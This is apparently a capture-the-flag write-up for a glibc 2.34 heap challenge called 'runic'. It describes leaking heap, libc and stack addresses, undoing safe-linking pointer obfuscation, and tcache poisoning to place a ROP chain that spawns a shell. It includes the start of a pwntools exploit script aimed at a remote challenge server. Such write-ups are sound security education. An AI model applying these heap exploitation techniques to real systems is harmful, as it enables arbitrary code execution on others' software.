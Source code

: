 Since there is heap pointer mangling but it's the first chunk allocated. The heap base can be found by bitshifting the leaked pointer to the left by 12 (eg. heap_leak << 12)

Next we need a libc pointer. We can use the same method of overwriting to overwrite a chunk size to be 0x421. Then free that pointer to get a libc pointer. Then overflow untill we hit the libc pointer to leak again.

Once leaking is done, we can just overflow into the free pointers of the tcache bins. But since this is libc 2.34 no free hook is available (I think). So we'll instead leak the stack as well.

To leak the stack, we use the overflow again to overwrite a free pointer to point at __libc_argv. We need to remember to obfuscate the pointer we are writing as this is libc-2.34.

Obfuscation can be done as follows:
```py
def obfuscate(pos,ptr):
    return (pos>>12) ^ ptr
```

Next we allocate that chunk and fill it with data untill we hit the stack pointer. Then show that chunk.

Once we have a stack leak, we just need to allocate a chunk on top of the return pointer for create, with a ROP chain. Again this is done by overflowing into a free pointer, and then allocating that free pointer.

In short we:
1. Use overflow to write up to heap free ptr and leak it. Then deobfuscate it
2. Use overflow to overwrite size of a chunk, then free it to get a libc pointer. Leak by using the same method as in 1
3. Use overflow to allocate a chunk on top of __libc_argv. Fill it with data untill we can leak the pointer
4. Use overflow to allocate a chunk on top of the create functions return pointer, to allocate a ROP chain and spawn shell


Exploit:

```py
from pwn import *

gdbscript = """
c
"""
#io = gdb.debug("./runic",gdbscript=gdbscript)
#io = process("./runic")
io = remote("165.227.224.40",32085)

def create(name,size,data):
    io.recvuntil(b'Action:')
    io.sendline(b'1')
    io.recvuntil(b'Rune name:')
    io.send(name)
    io.recvuntil(b'Rune length')
    io.send(f"{size}".encode())
    io.recvuntil(b'Rune contents:')
    io.send(data)

def delete(name):
    io.recvuntil(b'Action:')
    io.sendline(b'2')
    io.recvuntil(b'Rune name:')
    io.send(name)

def show_rune(name):
    io.recvuntil(b'Action:')
    io.sendline(b'4')
    io.recvuntil(b'Rune name:')
    io.send(name)
```
